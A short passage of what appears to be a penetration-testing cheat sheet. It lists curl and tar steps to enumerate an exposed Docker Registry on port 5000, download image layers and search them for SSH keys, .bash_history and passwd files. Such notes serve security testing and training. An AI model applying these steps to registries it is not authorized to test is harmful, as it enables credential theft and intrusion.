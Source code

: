 Extracting the .tar file to verify the content:
```bash
mkdir blob1
tar -xf blob1.tar -C blob1
ls -la blob1/
```

> From this way forward, you search for files, .bash_history, etc...


## Credentials and Data in Images

- Again if an environment has port 5000 (Registry) open. 

You can try to list:
1. images
2. tags
3. blobs
4. download blobs to .tar
5. inspect content


Step 1 [List Images]:
```bash
curl -s IP:5000/v2/catalog | jq
```

Step 2 [List Tags]:
```bash
curl -s IP:5000/v2/server_ssh/tags/list | jq
```

> In this case is `latest`

Step 3 [List Blobs]:
```bash
curl -s IP:5000/v2/server_ssh/manifests/latest | jq
```

> Blobs are used to store layers (. tar files) and container configuration files (. json files).

Step 4 [Download the blobs to .tar]:
```bash
curl -so nome_do_arquivo.tar IP:5000/v2/server_ssh/blobs/SHA256_digest
```

> Step 5 [Inspect content]

Extract the .tar file

```bash
tar -xf blob.tar -C blob
```

Search for:
- ssh files
- bash_history file
- keys
- passwd
- etc
